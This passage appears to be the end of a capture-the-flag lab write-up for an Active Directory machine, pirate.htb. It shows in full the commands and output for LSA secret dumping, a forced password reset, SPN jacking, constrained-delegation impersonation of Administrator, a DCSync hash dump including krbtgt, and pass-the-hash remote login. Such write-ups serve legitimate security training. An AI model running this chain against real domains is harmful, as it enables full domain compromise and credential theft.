SMB         web01.pirate.htb 445    WEB01            PIRATE\WEB01$:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::
SMB         web01.pirate.htb 445    WEB01            PIRATE\a.white:E2nvAOKSz5Xz2MJu
SMB         web01.pirate.htb 445    WEB01            dpapi_machinekey:0x01cffc2ef9a91d20107371f9a4a4112c892ed989
dpapi_userkey:0xa4fddb1b2df2db7cc3d044dc1b559bc1b45a1de9
SMB         web01.pirate.htb 445    WEB01            _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:e3ef474b98138dd4469f6dc176f879ba1e0817ba44502187b9080b9f3334c91b9b1af1ce4e91fb562c8d8824412c700e00d105bc674d8e26a594e3da4173f2c87313d634b39c3412d4bfb6849247686df6065b536566807e0ace92f94ea3166bb9752d12d352c89b9fdafa7d3171e4dd55be9d585504f8c628a0ff4c670d7595a909a3c9a7ec2dff984e5ddf77049a91a5597f0a39c5499455675901cce41aded98d80a1b5f7f82cc220b590df4bfc0bfc5f0feb66e73a56f1ab7fe914c6d7cd2b83e0b9065b76e02bc330f7694416f3acd6c463df84923500b64a1014e74413809a7a06af577ce7685bfd2ab56a2067
SMB         web01.pirate.htb 445    WEB01            _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:01000000220100001000000012011a01b6c4083911a28350b1fd6948803650e1b1c5741f7719b1f4ff926203dcdf4ec9c0369b7b92fe10a2d7ff953bfa406a3b6786523ed82767cc8fe2734af892e98efbef2b3476759032b4ecdef34276c363b8a9410b63d809ea6ef167f5b541d73c3ac4214da22a14d97982c928d91bb971fe99d4809c1ebdeae8e769c6b3377ee1a478dffbb2ddc13318be131167d1a4a01833a4c27e0512690d73de1e59a01761ec7d40fc1882050cbf439d9cbb281a06d4bf8d85d1feb2740ec399eca0e46e36990b72b2c4a64ae009bafb3dfd264ff734b63fb922609e8c305883a75d9aef75ce37bca0910436590d9312fca46ad89a61a89bddc873197de48eab3d69b9e49800001941b01b7317000019e3df6872170000
SMB         web01.pirate.htb 445    WEB01            GMSA ID: a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11 NTLM: 841fae962662f0c2f0178d01d178ec3e
SMB         web01.pirate.htb 445    WEB01            [+] Dumped 9 LSA secrets to /home/kali/.nxc/logs/lsa/WEB01_web01.pirate.htb_2026-09-25_031007.secrets and /home/kali/.nxc/logs/lsa/WEB01_web01.pirate.htb_2026-09-25_031007.cached
```

I can also dump LSA, i have now got `a.white` password



This user i have now got has ForceChangePassword on the `adm` account

```python
bloodyAD --host dc01.pirate.htb -d pirate.htb -u 'a.white' -p 'E2nvAOKSz5Xz2MJu' set password 'a.white_adm' 'Password123!'
[+] Password changed successfully!
```

The accounts password has now been changed

```python
nxc smb dc01.pirate.htb -u a.white_adm -p 'Password123!'
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [+] pirate.htb\a.white_adm:Password123!
```

This user is now compromised!

## SPN jacking and constrained delegation

https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking

```python
findDelegation.py pirate.htb/'a.white_adm':'Password123!'                                   
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType  DelegationType                      DelegationRightsTo     SPN Exists 
-----------  -----------  ----------------------------------  ---------------------  ----------
DC01$        Computer     Unconstrained                       N/A                    Yes        
a.white_adm  Person       Constrained w/ Protocol Transition  http/WEB01.pirate.htb  Yes        
a.white_adm  Person       Constrained w/ Protocol Transition  HTTP/WEB01             Yes        
GFSNAPOT$    Computer     Resource-Based Constrained          WEB01$                 No         
```

Im only interested in the delegation rights of `a.white_adm`

In this case its on `web01`

```python
bloodyAD --host dc01.pirate.htb -d pirate.htb -u 'a.white_adm' -p 'Password123!' get writable --detail

distinguishedName: CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb
servicePrincipalName: WRITE

distinguishedName: CN=WEB01,CN=Computers,DC=pirate,DC=htb
servicePrincipalName: WRITE
```

This means i can essentially move the SPN from one machine to the other, i want `dc01` in this situation since i have already compromised `web01`

https://github.com/dirkjanm/krbrelayx

```python
python3 addspn.py --clear -t 'web01$' -u 'pirate.htb\a.white_adm' -p 'Password123!' '10.129.244.95'
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] Printing object before clearing
DN: CN=WEB01,CN=Computers,DC=pirate,DC=htb - STATUS: Read - READ TIME: 2026-09-24T20:27:12.221378
    dNSHostName: WEB01.pirate.htb
    sAMAccountName: WEB01$
    servicePrincipalName: tapinego/WEB01
                          tapinego/WEB01.pirate.htb
                          WSMAN/WEB01
                          WSMAN/WEB01.pirate.htb
                          HOST/WEB01.pirate.htb
                          RestrictedKrbHost/WEB01.pirate.htb
                          HOST/WEB01
                          RestrictedKrbHost/WEB01
                          TERMSRV/WEB01.pirate.htb
                          TERMSRV/WEB01
                          HTTP/WEB01
                          HTTP/WEB01.pirate.htb

[+] SPN Modified successfully
```

Ill first clear the SPNs

```python
python3 addspn.py -t 'dc01$' --spn 'HTTP/WEB01.pirate.htb' -u 'pirate.htb\a.white_adm' -p 'Password123!' '10.129.244.95'
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

Then ill add the SPN for the DC

```python
faketime -f +7h getST.py -spn "HTTP/WEB01.pirate.htb" -impersonate "Administrator" 'pirate.htb/a.white_adm:Password123!' -altservice "cifs/DC01.pirate.htb" -k
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to cifs/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@cifs_DC01.pirate.htb@PIRATE.HTB.ccache
```

Ill then just request a TGT for the Administrator

## Domain Admin

```python
faketime -f +7h secretsdump.py -k -no-pass dc01.pirate.htb

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:598295e78bd72d66f837997baf715171:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

[*] DefaultPassword 
PIRATE\Administrator:gODNiUG69Mz77SIZ

[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:598295e78bd72d66f837997baf715171:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:33071738496aba54a991ccc80875c97e:::
pirate.htb\a.white_adm:1104:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
pirate.htb\a.white:3101:aad3b435b51404eeaad3b435b51404ee:d2593a013aaf8e077ab0e69f9471b4c1:::
pirate.htb\pentest:4106:aad3b435b51404eeaad3b435b51404ee:32e1d98aef1071b86d5132f6bb18f3fa:::
pirate.htb\j.sparrow:4110:aad3b435b51404eeaad3b435b51404ee:cfea2c42c4e9e5a1ac6b7ed4b9a9f518:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:230600b8b669ffa1dccf403058170dae:::
WEB01$:3102:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::
MS01$:4102:aad3b435b51404eeaad3b435b51404ee:b80b20b63597d94d0e5c95d119a11c60:::
EXCH01$:4103:aad3b435b51404eeaad3b435b51404ee:bc74a7036b998a5e098615df5af3dfb8:::
gMSA_ADCS_prod$:4105:aad3b435b51404eeaad3b435b51404ee:aa831d274ee80cf2092f68cbcf29093e:::
gMSA_ADFS_prod$:4108:aad3b435b51404eeaad3b435b51404ee:e819498ec29f595382df1eaf4fb42307:::
GFSNAPOT$:10601:aad3b435b51404eeaad3b435b51404ee:88ea2e8a287c9bbabd75a9354d754c0b:::
```

I can now use the ticket to dump the secrets from the domain

```python
evil-winrm-py -i dc01.pirate.htb -u Administrator -H '598295e78bd72d66f837997baf715171'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.pirate.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\Administrator\Documents>
```

Domain Admin!
